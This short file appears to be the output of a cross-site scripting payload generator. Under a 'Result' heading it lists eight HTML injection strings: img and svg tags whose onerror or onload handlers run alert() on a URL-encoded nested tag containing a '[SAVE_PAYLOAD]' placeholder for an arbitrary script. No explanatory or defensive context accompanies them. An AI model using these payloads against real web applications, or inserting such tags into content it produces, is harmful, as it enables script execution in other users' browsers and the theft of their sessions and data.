

# Result
<img src=Something onerror=alert(unescape('%3Cimg%20src%3DSomething%20onerror%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<img value=Something onerror=alert(unescape('%3Cimg%20value%3DSomething%20onerror%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<img src=Something onload=alert(unescape('%3Cimg%20src%3DSomething%20onload%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<img value=Something onload=alert(unescape('%3Cimg%20value%3DSomething%20onload%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<svg src=Something onerror=alert(unescape('%3Csvg%20src%3DSomething%20onerror%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<svg value=Something onerror=alert(unescape('%3Csvg%20value%3DSomething%20onerror%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<svg src=Something onload=alert(unescape('%3Csvg%20src%3DSomething%20onload%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />
<svg value=Something onload=alert(unescape('%3Csvg%20value%3DSomething%20onload%3D%5BSAVE_PAYLOAD%5D%20/%3E')); />